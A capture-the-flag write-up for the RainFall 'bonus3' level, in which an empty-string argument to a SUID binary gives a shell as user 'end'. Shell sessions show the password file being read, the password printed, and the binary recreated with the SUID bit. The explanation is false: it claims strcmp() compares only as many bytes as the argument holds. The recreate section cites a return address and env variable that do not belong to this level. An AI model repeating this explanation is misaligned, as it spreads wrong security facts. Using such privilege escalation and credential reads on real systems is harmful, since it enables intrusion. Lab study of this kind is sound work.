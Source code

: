 # Level bonus 3

## Vulnerability

```strcmp()``` with empty argument

## Context

We find a binary with owner ```end``` and SUID.
```
bonus3@RainFall:~$ ls -l
-rwsr-s---+ 1 end users 5595 Mar  6  2016 bonus3
```
When run with 1 argument, it prints a new line. Run with 0 or 2 =< arguments it does nothing.
```
bonus3@RainFall:~$ ./bonus3
bonus3@RainFall:~$ ./bonus3 Yes!

bonus3@RainFall:~$ ./bonus3 No no
bonus3@RainFall:~$ ./bonus3 No no no
bonus3@RainFall:~$
```

## Solution

In summary, if you give the password for user ```end``` as argument to ```bonus3```, it opens a shell (well actually it segfaults).

But we don't know the password yet so...

Investigating with gdb we find just ```main()```. ```main()``` opens ```/home/user/end/.pass``` and copies the password into a buffer twice. Then ```strcmp()``` compares the buffer and argv[1], opening a shell if you have provided the matching password. However ```strcmp()``` will only read and compare as many bytes as len(argv[1]), so if we provide an empty string ```strcmp()``` returns 0, claiming the password and empty string are the same (for as many bytes as read - 0).
```
bonus3@RainFall:~$ ./bonus3 ""
$ whoami
end
$ cat /home/user/end/.pass
3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
$ exit
bonus3@RainFall:~$ su end
Password: 3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
end@RainFall:~$ ls -l
-rwsr-s---+ 1 end users 26 Sep 23  2015 end
end@RainFall:~$ cat end
Congratulations graduate!
```
Maybe should have used ```strncmp()``` instead of ```strcmp()```.

Anyways Congratulations graduate!

## Recreate Exploited Binary

As user ```end```, in ```/tmp```, create and compile ```bonus3_source.c```
```
end@RainFall:/tmp$ gcc bonus3_source.c -o bonus3_source
```

Edit permissions including suid, then move the binary to home directory.
```
end@RainFall:/tmp$ chmod u+s bonus3_source; chmod +wx ~; mv bonus3_source ~
```

Exit back to user ```bonus3```, then provide our exploit as argument to the source. Luckily, the env language var address is similar, so the return address doesn't need updating.
```
end@RainFall:/tmp$ exit
exit
bonus3@RainFall:~$ /home/user/end/bonus3_source ""
$ whoami
end
```
